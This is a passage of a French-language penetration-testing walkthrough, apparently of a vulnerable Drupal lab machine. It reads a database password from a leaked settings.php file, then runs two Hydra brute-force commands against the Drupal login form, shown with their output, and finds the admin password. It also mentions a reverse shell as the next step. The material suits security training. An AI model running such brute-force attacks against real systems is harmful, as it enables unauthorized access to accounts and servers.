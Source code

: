 Après une recherche éclair, on finit par retrouver sa trace dans le fichier ```settings.php``` du site.

```console
root@blinils:~/git-dump/sites/default# cat settings.php | grep db_url
 * Note that the $db_url variable gets parsed using PHP's built-in
 * $db_url parts, you can escape them via URI hex encodings:
 * of $db_url variables with the 'default' element used until otherwise
 *   $db_url = 'mysql://username:password@localhost/databasename';
 *   $db_url = 'mysqli://username:password@localhost/databasename';
 *   $db_url = 'pgsql://username:password@localhost/databasename';
$db_url = 'mysqli://root:JumpUpAndDown@localhost/drupal';
```

Malheureusement, ce mot de passe ne correspond à aucun compte Drupal ou login SSH, il va falloir creuser davantage.

## À la recherche d'un mot de passe valide

L'IHM d'administration est la première piste envisagée, et le compte ```admin``` est bien évidemment le premier à être testé.

```console
root@blinils:~# hydra -l admin -P rockyou.txt 192.168.56.102 http-form-post \
'/node?destination=node:name=^USER^&pass=^PASS^&op=Log+in&form_build_id=form-e07a3b33babb2f3209fd8516fc0415f2&form_id=user_login_block:S=Location' -t 32
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2018-12-11 10:09:08
[DATA] max 32 tasks per 1 server, overall 32 tasks, 14344398 login tries (l:1/p:14344398), ~448263 tries per task
[DATA] attacking http-post-form://192.168.56.102:80//node?destination=node:name=
^USER^&pass=^PASS^&op=Log+in&form_build_id=form-e07a3b33babb2f3209fd8516fc0415f2&form_id=user_login_block:S=Location
[STATUS] 396.00 tries/min, 396 tries in 00:01h, 14344002 to do in 603:43h, 32 active
[STATUS] 370.53 tries/min, 5558 tries in 00:15h, 14338840 to do in 644:58h, 32 active
[80][http-post-form] host: 192.168.56.102   login: admin   password: football123
1 of 1 target successfully completed, 1 valid password found
```

Et hop, nous voici en possession du mot de passe ```football123``` pour le compte ```admin```. Avant de nous lancer dans la mise en place d'un [_reverse shell_](http://pentestmonkey.net/tools/web-shells/php-reverse-shell) afin d'interagir avec le serveur, il est tout de même pertinent de vérifier si ce mot de passe n'est pas réutilisé ailleurs... pour des accès SSH au serveur, par exemple, ou pour d'autres accès à l'interface d'administration de Drupal ?

```console
root@blinils:~# hydra -L drupal_firstnames.txt -p football123 192.168.56.102 http-form-post \
'/node?destination=node:name=^USER^&pass=^PASS^&op=Log+in&form_build_id=form-e07a3b33babb2f3209fd8516fc0415f2&form_id=user_login_block:S=Location' -t 32
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2018-12-11 11:10:09
[DATA] max 21 tasks per 1 server, overall 21 tasks, 21 login tries (l:21/p:1), ~1 try per task
[DATA] attacking http-post-form://192.168.56.102:80//node?destination=node:name=
^USER^&pass=^PASS^&op=Log+in&form_build_id=form-e07a3b33babb2f3209fd8516fc0415f2&form_id=user_login_block:S=Location
[80][http-post-form] host: 192.168.56.102   login: admin   password: football123
1 of 1 target successfully completed, 1 valid password found
```
